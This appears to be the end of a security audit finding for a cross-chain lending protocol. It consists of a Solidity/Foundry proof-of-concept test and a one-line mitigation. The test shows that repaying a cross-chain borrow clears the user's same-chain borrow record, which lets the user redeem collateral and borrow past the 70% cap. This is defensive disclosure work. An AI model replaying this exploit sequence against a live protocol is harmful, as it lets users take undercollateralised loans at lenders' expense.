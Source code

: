 ```solidity
        _supplyC(amountToSupply);

        vm.startPrank(deployer);

        // MAX BORROW AMOUNT CAPPED AT 70%
        // calculate maxBorrowAmount based on this deposited collateral
        uint256 maxBorrowAmount = (amountToSupply * 70) / 100;

        // FIRST SAME-CHAIN BORROW
        // NOTE: User borrows half the maxBorrowAmount
        coreRouterA.borrow(maxBorrowAmount / 2, tokenA);

        // check user borrow tokens
        address[] memory currentDeployerBorrowedAssets = lendStorageA.getUserBorrowedAssets(deployer);
        assertEq(currentDeployerBorrowedAssets.length, 1, "Deployer should have one borrowed assets");
        
        // Check destination borrow details
        LendStorage.Borrow[] memory userBorrows = lendStorageB.getCrossChainBorrows(deployer, tokenB);

        // FULL CROSS CHAIN BORROW REPAYMENT
        uint256 fullAmount = userBorrows[0].principle;
        ERC20Mock(tokenA).mint(deployer, fullAmount);
        IERC20(tokenA).approve(address(coreRouterA), fullAmount);

        routerA.repayCrossChainBorrow(deployer, fullAmount, lTokenA, 31337);

        // check user borrow tokens
        address[] memory finalDeployerBorrowedAssets = lendStorageA.getUserBorrowedAssets(deployer);
        assertEq(finalDeployerBorrowedAssets.length, 0, "Deployer should have no borrowed assets");

        // let deployer redeem all his collateral he deposited on chainB
        // after this, there are no collateral on chainB, ONLY in chainA
        coreRouterB.redeem(lendStorageB.totalInvestment(deployer, lTokenB), payable(lTokenB));

        // SECOND SAME-CHAIN BORROW
        // NOTE: User manages to make away with another 3/4 of maxBorrowAmount
        // allowing them to take upto 87.5% when max should be 70%
        coreRouterA.borrow(maxBorrowAmount * 3 / 4, tokenA);

        vm.stopPrank();
    }
```

## Mitigation
Update `removeUserBorrowedAsset()` logic to only remove an asset if the user's total debt (same-chain + cross-chain) for that token is zero.